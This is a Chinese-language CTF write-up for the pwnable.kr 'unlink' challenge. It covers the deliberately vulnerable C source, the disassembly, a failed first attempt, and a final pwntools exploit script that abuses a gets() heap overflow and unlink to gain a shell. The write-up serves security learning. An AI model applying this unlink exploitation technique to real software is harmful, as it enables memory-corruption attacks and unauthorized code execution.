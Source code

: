 ```yaml
---
layout:     post
title:      "pwnable.kr之unlink"
subtitle:   " 堆还是栈？ "
date:       2018-07-21 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
 
---
```


>题目地址：[http://pwnable.kr/play.php](http://pwnable.kr/play.php)

>连接  ssh unlink@pwnable.kr -p2222 (pw: guest)

## 0x01 程序分析

它直接给出了源代码unlink.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;

void shell(){
        system("/bin/sh");
}

void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);
         
        // exploit this unlink!
        unlink(B);
        return 0;
}

```


可以看出这段代码模仿了堆的一些实现,模拟的 Unlink 堆溢出漏洞。最后打印出A变量栈中地址和heap指向分配的mem地址,让你get shell.

main函数汇编代码如下：

```python
.text:0804852F ; int __cdecl main(int argc, const char **argv, const char **envp)
.text:0804852F                 public main
.text:0804852F main            proc near               ; DATA XREF: _start+17↑o
.text:0804852F
.text:0804852F var_14          = dword ptr -14h
.text:0804852F var_10          = dword ptr -10h
.text:0804852F var_C           = dword ptr -0Ch
.text:0804852F var_4           = dword ptr -4
.text:0804852F argc            = dword ptr  8
.text:0804852F argv            = dword ptr  0Ch
.text:0804852F envp            = dword ptr  10h
.text:0804852F
.text:0804852F ; __unwind {
.text:0804852F                 lea     ecx, [esp+4]
.text:08048533                 and     esp, 0FFFFFFF0h
.text:08048536                 push    dword ptr [ecx-4]
.text:08048539                 push    ebp
.text:0804853A                 mov     ebp, esp
.text:0804853C                 push    ecx
.text:0804853D                 sub     esp, 14h
.text:08048540                 sub     esp, 0Ch
.text:08048543                 push    400h            ; size
.text:08048548                 call    _malloc
.text:0804854D                 add     esp, 10h
.text:08048550                 sub     esp, 0Ch
.text:08048553                 push    10h             ; size
.text:08048555                 call    _malloc
.text:0804855A                 add     esp, 10h
.text:0804855D                 mov     [ebp+var_14], eax
.text:08048560                 sub     esp, 0Ch
.text:08048563                 push    10h             ; size
.text:08048565                 call    _malloc
.text:0804856A                 add     esp, 10h
.text:0804856D                 mov     [ebp+var_C], eax
.text:08048570                 sub     esp, 0Ch
.text:08048573                 push    10h             ; size
.text:08048575                 call    _malloc
.text:0804857A                 add     esp, 10h
.text:0804857D                 mov     [ebp+var_10], eax
.text:08048580                 mov     eax, [ebp+var_14]
.text:08048583                 mov     edx, [ebp+var_C]
.text:08048586                 mov     [eax], edx
.text:08048588                 mov     edx, [ebp+var_14]
.text:0804858B                 mov     eax, [ebp+var_C]
.text:0804858E                 mov     [eax+4], edx
.text:08048591                 mov     eax, [ebp+var_C]
.text:08048594                 mov     edx, [ebp+var_10]
.text:08048597                 mov     [eax], edx
.text:08048599                 mov     eax, [ebp+var_10]
.text:0804859C                 mov     edx, [ebp+var_C]
.text:0804859F                 mov     [eax+4], edx
.text:080485A2                 sub     esp, 8
.text:080485A5                 lea     eax, [ebp+var_14]
.text:080485A8                 push    eax
.text:080485A9                 push    offset format   ; "here is stack address leak: %p\n"
.text:080485AE                 call    _printf
.text:080485B3                 add     esp, 10h
.text:080485B6                 mov     eax, [ebp+var_14]
.text:080485B9                 sub     esp, 8
.text:080485BC                 push    eax
.text:080485BD                 push    offset aHereIsHeapAddr ; "here is heap address leak: %p\n"
.text:080485C2                 call    _printf
.text:080485C7                 add     esp, 10h
.text:080485CA                 sub     esp, 0Ch
.text:080485CD                 push    offset s        ; "now that you have leaks, get shell!"
.text:080485D2                 call    _puts
.text:080485D7                 add     esp, 10h
.text:080485DA                 mov     eax, [ebp+var_14]
.text:080485DD                 add     eax, 8
.text:080485E0                 sub     esp, 0Ch
.text:080485E3                 push    eax             ; s
.text:080485E4                 call    _gets
.text:080485E9                 add     esp, 10h
.text:080485EC                 sub     esp, 0Ch
.text:080485EF                 push    [ebp+var_C]
.text:080485F2                 call    unlink
.text:080485F7                 add     esp, 10h
.text:080485FA                 mov     eax, 0
.text:080485FF                 mov     ecx, [ebp-4]
.text:08048602                 leave
.text:08048603                 lea     esp, [ecx-4]
.text:08048606                 retn
.text:08048606 ; } // starts at 804852F
.text:08048606 main            endp

```

## 0x01 漏洞分析之折腾

明显程序在 gets(A->buf) 处有堆溢出，一开始我走偏了，狠狠折腾了一番。我的思路是他泄露了&A即栈地址，根据栈地址能算出ret时esp指向的栈顶地址，这个偏移是不会随着系统的aslr变化的。所以我找出了ret 时esp相对于&A的偏移 0x28 。知道了 ret 时的栈顶有什么用呢？ 只要用gets伪造好数据，调用unlink函数的时候就可以替换地址，我要做的就是将 B堆空间的fd替换成ret-4地址，bk替换成shell函数地址，payload如下：

	payload="a"*8+p32(0)+p32(0x19)+p32(ret-4)+p32(shell_addr)

这样unlink后

	*(ret-4+4)=*(ret)=栈顶内容=shell_addr 
	*(shell_addr)=ret-4

这样当程序执行到main函数ret的时候，就能成功返回到我的shell地址，

我本以为这样就能成功拿shell，结果我忽略了一个问题。那就是*(shell_addr)=ret-4 这个地方已经破坏了shell函数的代码段  /(ㄒoㄒ)/  失败告终。


## 0x02 再次分析

后来发现main函数结尾那里，

```nasm
.text:080485FF                 mov     ecx, [ebp-4]
.text:08048602                 leave
.text:08048603                 lea     esp, [ecx-4]
.text:08048606                 retn
```

会将**[ecx-4]**写入**esp**，只要我们可控制 **ecx**内容就能控制返回地址。再看上面有**mov  ecx,[ebp-4]** 这样一段代码，只有我们可以控制**[ebp-4]**的内容就能控制**ecx**内容。

经调试发现**ebp-4=&A + 0x10** 代码有两次取地址内容，根据泄露的A的heap地址 ， heap地址下面（高处）即是gets()输入的内存空间，所以我们又构造 **heap+12=shell_addr+4**

这样我们就将（shell的地址 + 4）写入（ebp-4的内存中）也就是将 A+12 的值写入 &A + 0x10的内存中，返回时便控制了eip。

## 0x03 完整exp

```python
from pwn import *
context(os='linux', log_level='debug')
p=process("./unlink")
shell_addr=0x80484eb
stack_addr=p.recvline()
stack_addr=stack_addr.split(": 0x")[1][:-1]
stack_addr=int(stack_addr,16)

heap_addr=p.recvline()
heap_addr=heap_addr.split(": 0x")[1][:-1]
heap_addr=int(heap_addr,16)

p.recvuntil("get shell!\n")
payload=p32(shell_addr)+"a"*12+p32(heap_addr+12)+p32(stack_addr+16)
p.sendline(payload)
p.interactive()
```

>[文件下载](https://github.com/yxshyj/project/tree/master/pwn/pwnable.kr%E4%B9%8Bunlink)